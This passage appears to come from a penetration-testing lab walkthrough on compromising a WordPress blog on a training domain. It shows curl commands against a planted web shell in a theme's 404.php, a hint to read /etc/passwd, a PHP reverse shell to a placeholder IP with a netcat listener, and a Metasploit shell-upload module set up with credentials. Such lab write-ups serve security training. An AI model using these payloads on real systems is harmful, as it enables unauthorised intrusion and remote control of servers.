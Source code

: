 ```php

<!-- Usage examples:
?cmd=id
?cmd=ls -la
?file=/etc/passwd
-->
```

#### Step 4: Web Shell Access
```bash
# Access web shell through theme path
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=id"

# Expected output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Command execution examples
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=whoami"
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=pwd"
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=ls+-la"
```

### Reverse Shell Establishment

#### PHP Reverse Shell
```php
<?php
// Add to theme file for reverse shell
$ip = 'YOUR_IP';
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

#### Netcat Listener Setup
```bash
# Start listener on attacking machine
nc -nlvp 4444

# Trigger reverse shell
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php"
```

---

## Metasploit Exploitation

### wp_admin_shell_upload Module

#### Module Configuration
```bash
# Start Metasploit
msfconsole

# Load WordPress admin shell upload module
use exploit/unix/webapp/wp_admin_shell_upload

# Set required options
set USERNAME john
set PASSWORD firebird1
set RHOSTS 10.129.42.195
set VHOST blog.inlanefreight.local
set LHOST 10.10.14.15
```